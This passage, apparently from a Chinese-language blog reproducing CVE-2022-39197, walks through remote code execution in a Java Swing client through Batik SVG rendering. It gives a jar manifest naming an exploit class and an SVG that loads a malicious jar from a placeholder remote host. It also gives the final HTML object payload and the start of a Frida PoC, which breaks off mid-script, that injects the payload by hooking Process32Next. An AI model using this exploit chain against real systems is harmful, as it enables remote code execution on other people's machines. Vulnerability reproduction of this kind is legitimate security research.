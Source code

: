 ```java

}
```



MANIFEST.MF文件

```
Manifest-Version: 1.0
SVG-Handler-Class: Exploit
```



然后将恶意java代码打包成jar文件



下一步就是准备SVG文件，

```html
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.0">
	<script type="application/java-archive" xlink:href="http://xxx.xxx.xxx.xxx/EvilJar-1.0-jar-with-dependencies.jar"/>
	<text>CVE-2022-39197</text>
</svg>
```

注意：SVG的默认安全策略是在 JAR 与 SVG 文件具有相同来源时才会执行 Java 代码



## RCE复现

经过上面的折腾，得到最终的payload:

```html
<html><object classid='org.apache.batik.swing.JSVGCanvas'><param name='URI' value='payload'></param></object>
```



网上找到的POC

```python
import frida
import time
import sys


def processInject(target, url):
    print('[+] Spawning target process')

    pid = frida.spawn(target)
    session = frida.attach(pid)

    frida_script = '''  
    var payload="<html><object classid='org.apache.batik.swing.JSVGCanvas'><param name='URI' value='USER_PAYLOAD'></param></object>"  
    var pProcess32Next = Module.findExportByName("kernel32.dll", "Process32Next")

    Interceptor.attach(pProcess32Next, {
        onEnter: function(args) {
            this.pPROCESSENTRY32 = args[1];
            if(Process.arch == "ia32"){
                this.exeOffset = 36;
            }else{
                this.exeOffset = 44;
            }
            this.szExeFile = this.pPROCESSENTRY32.add(this.exeOffset);
        },
```